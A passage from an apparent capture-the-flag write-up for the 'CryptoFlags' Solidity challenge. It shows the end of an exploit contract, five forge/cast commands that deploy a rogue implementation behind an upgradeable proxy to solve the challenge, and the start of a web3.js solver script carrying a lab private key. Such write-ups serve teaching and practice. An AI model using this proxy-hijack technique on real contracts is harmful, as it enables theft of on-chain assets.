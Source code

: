 ```

    flags.claimFlag(flagId);
    flags.setFlagName(flagId, payload);
  }
}
```

1. Get the `CryptoFlags` address: `FLAGS=$(cast call --rpc-url $RPC $SETUP "cryptoFlags() (address)")`
2. Deploy the Exploit contract: `forge create --broadcast --rpc-url $RPC --private-key $KEY ./Exploit.sol:Exploit --constructor-args $FLAGS`
3. Deploy the rogue implementation of the contract: `forge create --broadcast --rpc-url $RPC --private-key $KEY ./Exploit.sol:ExploitImpl`
4. Call the `exploit` method: `cast send --rpc-url $RPC --private-key $KEY $EXPLOIT "exploit(address)" $EXPLOIT_IMPL`
5. Check if the challenge is solved: `cast call --rpc-url $RPC $SETUP "isSolved() (bool)"`

Initially, I wanted to call the `claimFlag` and `setFlagName` functions manually using `cast`, without the need
for a second contract. However, the server crashed after calling `setFlagName`. I don't know why, maybe there
was too much data being sent.

I also wrote a solver script using `web3.js`. At the end (after `return`) there is the initial attempt of calling
these functions manually.

```js
const { Web3 } = require("web3");
const solc = require("solc");
const path = require("path");
const fs = require("fs");

const RPC_URL = "http://10.244.0.1:8545";
const CONFIG = JSON.parse(`
    {
        "setup": "0x042ecBf75FC7A76562C1123E735Eb22C570fc4f9",
        "address": "0x048bB2aDD31d4df0b19BF210ef0858035B109c75",
        "private_key": "0xc8a0d23425d64c81c328a98aab95ab250fc8effb5d990699ef521440e0b55372"
    }
`)
const PRIVATE_KEY = CONFIG["private_key"]; 
const SETUP = CONFIG["setup"];

const web3 = new Web3(RPC_URL);
const account = web3.eth.accounts.privateKeyToAccount(PRIVATE_KEY);
web3.eth.accounts.wallet.add(account);

const sourceFiles = [
  "Exploit.sol",
  "ERC721_flattened.sol",
  "CryptoFlags.sol",
  "Setup.sol",
  "UpgradeableProxy.sol"
];

(async () => {
  const input = {
    language: "Solidity",
    sources: Object.fromEntries(
      sourceFiles.map(file => [
        file,
        {
          content: fs.readFileSync(path.join(__dirname, file), "utf8"),
        }
```
